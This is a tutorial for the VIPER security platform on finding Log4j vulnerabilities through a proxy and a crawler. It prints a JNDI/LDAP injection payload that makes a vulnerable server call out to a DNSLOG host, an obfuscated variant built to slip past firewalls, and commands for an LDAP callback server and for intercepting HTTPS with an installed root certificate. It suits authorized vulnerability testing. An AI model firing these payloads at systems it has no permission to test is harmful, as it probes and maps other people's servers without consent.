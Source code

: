 # Using VIPER to Scan Log4j Vulnerabilities (Active Scanning / Passive Scanning)

# Functional Features

## Passive Scanning

+ Automatically replace GET request parameters with Payload
+ Automatically replace POST request parameters with Payload
+ Automatically replace values in POST request JSON with Payload
+ Automatically skip password fields
+ Automatically add Payload to headers (based on dictionary polling)
+ Payload includes original Payload and Payload that bypasses WAF
+ Supports two callback modes: DNSLOG and LDAPServer (LDAPServer is more suitable for internal network self-check)

```plain
${jndi:ldap://ed3bf69b5e9611ec.xxx.ceye.io/hi}

${${c:Xy:-j}${Kp:W:q:-n}${dzD:-d}${UQt:-i}${GT:-:}${s:hzr:e:-l}${e:ZSJ:yd:-d}${fA:kBl:c:-a}${Hbn:q:-p}${f:Uu:-:}${HOB:-/}${Ijk:E:-/}${dfG:-e}${F:dSj:JE:-d}${Z:-3}${BOI:Yrf:-b}${Yt:S:-f}${DKB:-6}}${Z:-b}${xdB:XBZ:-5}${dW:-e}${uC:-6}${OC:KVJ:j:-1}${L:o:-1}${jhr:-e}${d:-c}${Gi:nUE:AX:-.}${vuo:hy:Srz:-9}${xv:-f}${KG:-p}${xm:-p}${My:aQw:-b}${Mz:Xr:-j}${Z:wWt:-.}${Kx:D:-c}${Y:-e}${j:-y}${xOm:-e}${Cn:-.}${N:Tx:de:-i}${hT:h:P:-o}${qi:yx:i:-/}${j:-h}${Qfp:-i}}
```

+ The Payload contains UUID, and the specific request content that triggers the vulnerability can be found according to the DNSLOG record.

## Active Scanning

+ Use chrome headless + crawler to automatically obtain all requests on the page and import them into the passive proxy to achieve automated scanning.
+ Command

```plain
.\crawlergo.exe -c./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

# Usage Tutorial

## Passive Scanning

+ Update the VIPER version to `v1.5.10`
+ Start VIPER

![](img\Use_Viper_to_scan_log4j_vulnerabilities\1.webp)

+ Set the browser proxy to viperip:28888

![](img\Use_Viper_to_scan_log4j_vulnerabilities\2.webp)

+ Enable the Log4j2 module in "Passive Scanning"

![](img\Use_Viper_to_scan_log4j_vulnerabilities\3.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\4.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\5.webp)

+ Open the target website through the browser and click around and enter information at will.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\6.webp)
![](img\Use_Viper_to_scan_log4j_vulnerabilities\7.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\8.webp)

+ VIPER's background will automatically replace the entered values with Payload.
+ Log in to the DNSlog platform and observe whether there are records.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\9.webp)

+ Copy the UUID information in the red box and query in the main page.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\10.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\11.webp)

+ The query result contains the specific request that can trigger the vulnerability.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\12.webp)

## Active Scanning

+ Update the VIPER version to `v1.5.10`
+ Start VIPER
+ Enable the Log4j2 module in "Passive Scanning"
+ Here, it is assumed that the website to be tested is [http://target.com](http://target.com).
+ Install crawlergo [https://github.com/Qianlitp/crawlergo](https://github.com/Qianlitp/crawlergo)
+ Start the crawler and send the traffic to VIPER's proxy.

```plain
.\crawlergo.exe -c./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

+ Wait for the crawler to finish.
+ Log in to the DNSlog platform and observe whether there are records.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\13.webp)

+ Copy the UUID information in the red box and query in the main page.


![](img\Use_Viper_to_scan_log4j_vulnerabilities\14.webp)

+ The query result contains the specific request that can trigger the vulnerability (This request is automatically sent by Crawlergo).

![](img\Use_Viper_to_scan_log4j_vulnerabilities\15.webp)

## Using LDAPServer for Callback

+ Update the VIPER version to `v1.5.10`
+ Start VIPER


+ Set the browser proxy to viperip:28888


+ Enable the Log4j2 module in "Passive Scanning"


+ Configure DNSLOG as `VPSIP:1387` here.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\16.webp)

+ Execute the following command to start VIPER's built-in LDAPServer.

```plain
docker exec -it viper-c bash
python3 /root/viper/STATICFILES/Tools/ldapserver.py -p 1387
```

![](img\Use_Viper_to_scan_log4j_vulnerabilities\17.webp)

+ Open the target website through the browser and click around and enter information at will.


+ The VIPER background will automatically replace the input value with Payload.
+ The LDAPServer will receive the back-connection request and print the request UUID.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\18.webp)

+ Copy the uuid information in the red box and query in the main page.


+ The query result contains specific requests that can trigger vulnerabilities.


##  

## Testing HTTPS websites

+ Update the VIPER version to `v1.5.10`.
+ Start VIPER.


+ Set the browser proxy to viperip:28888.


+ Open the browser at [http://mitm.it/](http://mitm.it/).

![](img\Use_Viper_to_scan_log4j_vulnerabilities\19.webp)

+ Download the certificate corresponding to the platform and install it (taking Windows as an example).

![](img\Use_Viper_to_scan_log4j_vulnerabilities\20.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\21.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\22.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\23.webp)

+ Do not fill in any information.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\24.webp)

+ Here, you need to select a trusted root certificate.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\25.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\26.webp)

+ Please delete the corresponding certificate from the system configuration after the test is completed.


